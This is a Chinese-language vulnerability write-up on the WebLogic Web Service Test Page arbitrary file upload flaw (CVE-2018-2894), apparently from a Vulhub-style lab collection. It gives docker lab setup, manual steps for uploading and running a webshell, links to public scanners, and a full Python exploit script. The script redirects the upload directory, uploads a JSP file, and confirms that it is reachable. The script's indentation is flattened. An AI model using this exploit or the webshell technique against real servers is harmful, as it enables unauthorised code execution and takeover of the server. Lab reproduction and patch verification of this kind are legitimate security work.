






Weblogic 任意文件上传漏洞 CVE-2018-2894¶
漏洞描述¶
Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。
利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。
参考链接：
- http://www.oracle.com/technetwork/security-advisory/cpujul2018-4258247.html
- https://mp.weixin.qq.com/s/y5JGmM-aNaHcs_6P9a-gRQ
- https://xz.aliyun.com/t/2458
环境搭建¶
Vulhub执行如下命令，启动weblogic 12.2.1.3：
docker-compose up -d
环境启动后，访问http://your-ip:7001/console，即可看到后台登录页面。
执行docker-compose logs | grep password可查看管理员密码，管理员用户名为weblogic。

登录后台页面，点击base_domain的配置，在“高级”中开启“启用 Web 服务测试页”选项：

漏洞复现¶
访问http://your-ip:7001/ws_utc/config.do，设置Work Home Dir为/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css。
此处将目录设置为ws_utc应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。

然后点击安全 -> 增加，然后上传webshell：

上传后，查看返回的数据包，其中有时间戳：

然后访问http://your-ip:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]，即可执行webshell：

开源POC¶
- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan
漏洞EXP¶
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey
from __future__ import print_function
from builtins import str
import re
import sys
import time
import argparse
import requests
import traceback
import xml.etree.ElementTree as ET
def get_current_work_path(host):
geturl = host + "/ws_utc/resources/setting/options/general"
ua = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0'}
values = []
try:
request = requests.get(geturl)
if request.status_code == 404:
exit("[-] {} don't exists CVE-2018-2894".format(host))
elif "Deploying Application".lower() in request.text.lower():
print("[*] First Deploying Website Please wait a moment ...")
time.sleep(20)
request = requests.get(geturl, headers=ua)
if "</defaultValue>" in request.content:
root = ET.fromstring(request.content)
value = root.find("section").find("options")
for e in value:
for sub in e:
if e.tag == "parameter" and sub.tag == "defaultValue":
values.append(sub.text)
except requests.ConnectionError:
exit("[-] Cannot connect url: {}".format(geturl))
if values:
return values[0]
else:
print("[-] Cannot get current work path\n")
exit(request.content)
def get_new_work_path(host):
origin_work_path = get_current_work_path(host)
works = "/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css"
if "user_projects" in origin_work_path:
if "\\" in origin_work_path:
works = works.replace("/", "\\")
current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects\\domains"
dir_len = len(current_work_home.split("\\"))
domain_name = origin_work_path.split("\\")[dir_len]
current_work_home += "\\" + domain_name + works
else:
current_work_home = origin_work_path[:origin_work_path.find("user_projects")] + "user_projects/domains"
dir_len = len(current_work_home.split("/"))
domain_name = origin_work_path.split("/")[dir_len]
current_work_home += "/" + domain_name + works
else:
current_work_home = origin_work_path
print("[*] cannot handle current work home dir: {}".format(origin_work_path))
return current_work_home
def set_new_upload_path(host, path):
data = {
"setting_id": "general",
"BasicConfigOptions.workDir": path,
"BasicConfigOptions.proxyHost": "",
"BasicConfigOptions.proxyPort": "80"}
request = requests.post(host + "/ws_utc/resources/setting/options", data=data, headers=headers)
if "successfully" in request.content:
return True
else:
print("[-] Change New Upload Path failed")
exit(request.content)
def upload_webshell(host, uri):
set_new_upload_path(host, get_new_work_path(host))
files = {
"ks_edit_mode": "false",
"ks_password_front": password,
"ks_password_changed": "true",
"ks_filename": ("360sglab.jsp", upload_content)
}
request = requests.post(host + uri, files=files)
response = request.text
match = re.findall("<id>(.*?)</id>", response)
if match:
tid = match[-1]
shell_path = host + "/ws_utc/css/config/keystore/" + str(tid) + "_360sglab.jsp"
if upload_content in requests.get(shell_path, headers=headers).content:
print("[+] {} exists CVE-2018-2894".format(host))
print("[+] Check URL: {} ".format(shell_path))
else:
print("[-] {} don't exists CVE-2018-2894".format(host))
else:
print("[-] {} don't exists CVE-2018-2894".format(host))
if __name__ == "__main__":
start = time.time()
password = "360sglab"
url = "/ws_utc/resources/setting/keystore"
parser = argparse.ArgumentParser()
parser.add_argument("-t", dest='target', default="http://127.0.0.1:7001", type=str,
help="target, such as: http://example.com:7001")
upload_content = "360sglab test"
headers = {
'Content-Type': 'application/x-www-form-urlencoded',
'X-Requested-With': 'XMLHttpRequest', }
if len(sys.argv) == 1:
sys.argv.append('-h')
args = parser.parse_args()
target = args.target
target = target.rstrip('/')
if "://" not in target:
target = "http://" + target
try:
upload_webshell(target, url)
except Exception as e:
print("[-] Error: \n")
traceback.print_exc()